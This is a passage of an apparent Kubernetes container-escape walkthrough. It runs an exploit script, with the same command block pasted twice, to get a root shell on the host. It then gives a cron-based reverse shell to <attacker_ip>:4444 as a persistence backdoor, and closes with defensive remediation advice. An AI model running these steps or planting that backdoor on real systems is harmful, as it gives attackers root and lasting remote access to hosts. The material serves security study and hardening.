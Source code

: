 **Run the exploit**
```bash
chmod +x /tmp/host-escape.py
python3 /tmp/host-escape.py
```

**In a separate terminal:**

```bash
chmod +x /tmp/host-escape.py
python3 /tmp/host-escape.py
```

* **Expected Output:** The script will start and remain in the foreground, creating the FUSE filesystem and mounting it on /tmp/hostfs. You should see output from FUSE. You will enter the host's namespace and obtain a shell as root.
* **Contribution:** Escape from the container.

**Validation:** After executing these steps, run the following command in the new shell:

```bash
whoami
```

* **Expected Output:** `root`
* **Contribution:** Verifies that the attacker has successfully gained root privileges on the host.

**Phase 3: Post-Exploitation (Example)**

**Step 6: Install a backdoor (example)**

```bash
echo "*/5 * * * * bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1" >> /etc/crontab
```

* **Explanation:** This command adds a cron job that executes a reverse shell every 5 minutes. Replace `<attacker_ip>` with the attacker's IP address.
* **Why:** Establishes persistence on the compromised host.
* **Expected Output:**  None.
* **Contribution:** Maintains access to the compromised host even after the initial shell is closed.

**Note:** This is just one example. More sophisticated post-exploitation steps can be performed, such as data exfiltration or lateral movement.

## Remediation Recommendations

1. **Implement strong Pod Security Policies (PSPs) or Pod Security Admission (PSA):**  Carefully define and enforce PSPs/PSA to restrict the capabilities of containers. Prevent containers from running as root, prevent privilege escalation, and limit the use of `CAP_SYS_ADMIN`.
2. **Use User Namespaces Correctly:** If using User Namespaces, ensure proper UID/GID mapping.  Never map container root to host root. Implement a non-zero offset for user and group IDs.
3. **Minimize Capabilities:** Reduce the number of capabilities granted to containers.  Only grant the minimum set of capabilities required for the application to function correctly.
4. **Keep the Host Kernel Updated:** Regularly patch the host kernel to address known vulnerabilities that can be exploited for container escape.
5. **Use a Secure Container Runtime:** Choose a container runtime that is known to have strong security features and is actively maintained. Ensure the container runtime is configured with the latest security patches.
6. **Implement Runtime Security Monitoring:** Use tools like Falco or Aqua Security to monitor container behavior and detect suspicious activity that may indicate a container escape attempt.
7. **Regularly Audit Configurations:** Periodically review Kubernetes cluster configurations, including PSPs/PSA, user namespace settings, and container runtime settings, to identify and correct potential security vulnerabilities.
8. **Principle of Least Privilege:** Apply the principle of least privilege to all aspects of the Kubernetes environment, including container configurations, user accounts, and network policies.

